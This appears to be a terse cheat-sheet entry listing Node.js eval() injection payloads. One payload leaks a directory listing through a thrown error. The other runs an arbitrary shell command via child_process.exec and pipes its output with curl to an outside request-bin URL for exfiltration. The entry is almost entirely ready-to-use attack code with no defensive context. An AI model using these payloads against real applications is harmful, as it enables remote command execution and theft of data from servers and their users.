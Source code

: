 # Nodejs

## eval()

payloads:

```javascript
(()=>{throw `${JSON.stringify(fs.readdirSync("."))}`})()

require("child_process").exec("{cmd} | curl https://requestbin.net/xxxxxx -T -");
```
